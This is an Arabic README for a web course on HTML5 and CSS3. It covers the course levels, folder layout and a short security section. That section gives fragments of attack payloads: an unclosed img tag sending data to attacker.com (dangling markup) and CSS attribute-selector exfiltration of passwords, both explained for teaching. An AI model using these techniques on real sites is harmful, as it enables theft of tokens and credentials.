

# 🎨 02 - مسار هندسة الويب وتصميم الواجهات | HTML5 & CSS3 Track

> 🌐 **اللغة:** **العربية 🇸🇦** | [English Version (README.md)](./README.md)

> **بِسْمِ اللَّهِ الرَّحْمَٰنِ الرَّحِيمِ**

مرحباً بك في **مسار إتقان HTML5 و CSS3**!  
تُعتبر لغتا HTML و CSS هما الهيكل العظمي والمظهر الجمالي لشبكة الويب الحديثة. هذا المسار يتجاوز الشرح النمطي البسيط: إنه مسار هندسي متكامل مصمم لينقلك من كتابة أول وسم وبناء صندوق العنصر (The Box Model)، مروراً بمحركات التخطيط الحديثة (Flexbox و CSS Grid) والتصميم المتجاوب مع الشاشات (Responsive Design)، وحتى إتقان **معايير الوصولية (Accessibility)** و **ثغرات الأمان الخاصة بـ HTML و CSS** (مثل الـ Dangling Markup وسرقة البيانات عبر CSS Data Exfiltration).

---

## 🧭 خريطة المسار الهندسية (Master Roadmap)

تتبع المسار المتدرج عبر المراحل الثلاث التالية:



---

## 📚 هيكلية مستويات المسار

| المستوى | التركيز التعليمي | المشروع الختامي | الروابط المباشرة |
| :--- | :--- | :--- | :---: |
| **المستوى 1 — الأساسيات** | تشريح الصفحة، الوسوم، النصوص الدلالية، الروابط، الوسائط، الـ Box Model، وأوضاع العرض. | **بطاقة المطور الشخصية** | [دليل المستوى بالعربية](./Level-1-Basic/README.ar.md)<br>[English Guide](./Level-1-Basic/README.md) |
| **المستوى 2 — التأسيس** | عناصر HTML5 الدلالية، النماذج والتحقق، محركات Flexbox و Grid، والتصميم المتجاوب مع الهواتف. | **صفحة منصة SaaS متجاوبة** | [دليل المستوى بالعربية](./Level-2-Foundation/README.ar.md)<br>[English Guide](./Level-2-Foundation/README.md) |
| **المستوى 3 — المتقدم والأمان** | معمارية BEM، متغيرات CSS، معايير الوصولية (a11y)، وثغرات Dangling Markup و CSS Data Exfiltration. | **لوحة تحكم ومعامل أمنية تفاعلية** | [دليل المستوى بالعربية](./Level-3-Advanced-and-Security/README.ar.md)<br>[English Guide](./Level-3-Advanced-and-Security/README.md) |

---

## 🛡️ زاوية الأمان (Security Dimension) في HTML و CSS

يعتقد أغلب المبرمجين خطأً أن الثغرات الأمنية لا توجد إلا في كود السيرفر أو جافا سكريبت! في هذا المسار ستكتشف أن هناك ثغرات خطيرة تتم عبر HTML و CSS فقط:

1. **Dangling Markup Injection:** كيف يسرق المهاجم توكن الـ CSRF وبيانات الحساب باستخدام وسم غير مغلق (`<img src="http://attacker.com/?...`) حتى لو كانت سياسة الـ CSP تمنع تنفيذ أي كود جافا سكريبت نهائياً!
2. **CSS Data Exfiltration:** استخراج وقراءة كلمات المرور والتوكنز السرية حرفاً بحرف عبر محددات الخصائص في CSS (`input[value^="a"] { background: url(...) }`) دون كتابة سطر جافا سكريبت واحد!
3. **عزل الـ Iframes والحماية من الـ Clickjacking:** تفعيل علم `sandbox` وتوجيهات `frame-ancestors` لحماية المستخدمين من هجمات التلاعب بالواجهات.

---

## 📂 هيكلية مجلدات المسار

```plaintext
02-HTML-CSS/
├── README.md                                    # Master English Guide & Visual Roadmap
├── README.ar.md                                 # هذا الملف (الدليل العربي الشامل)
│
├── Level-1-Basic/                               # 🟢 المستوى 1: الهيكل والـ Box Model
│   ├── README.md & .ar.md
│   ├── Lessons/ (en/ & ar/)                     # 10 دروس تأسيسية مشروحة
│   ├── Exercises/ (en/ & ar/)                   # 5 تمارين عملية
│   └── Final-Project/ (en/ & ar/)               # مشروع: بطاقة بروفايل المطور
│
├── Level-2-Foundation/                          # 🟡 المستوى 2: التخطيطات الحديثة والنماذج
│   ├── README.md & .ar.md
│   ├── Lessons/ (en/ & ar/)                     # 10 دروس هندسية معمارية
│   ├── Practical-Applications/ (en/ & ar/)      # تطبيقات الـ Flexbox و Grid
│   └── Final-Project/ (en/ & ar/)               # مشروع: صفحة هبوط SaaS متجاوبة
│
└── Level-3-Advanced-and-Security/               # 🔴 المستوى 3: الوصولية، المعمارية، وثغرات الأمان
    ├── README.md & .ar.md
    ├── Lessons/ (en/ & ar/)                     # 8 دروس متقدمة وأمنية
    ├── Labs/                                    # لابات تفاعلية (مشروحة وغير محلولة)
    └── Final-Project/ (en/ & ar/)               # مشروع: لوحة تحكم محصنة ومعمل أمني
```

---

## 🚀 كيف تبدأ الآن؟

ابدأ مباشرة بالدرس الأول:  
👉 **[المستوى الأول: الدرس 01 - تشريح صفحة HTML وهيكل المستند](./Level-1-Basic/Lessons/ar/01-html-anatomy-and-document.md)**
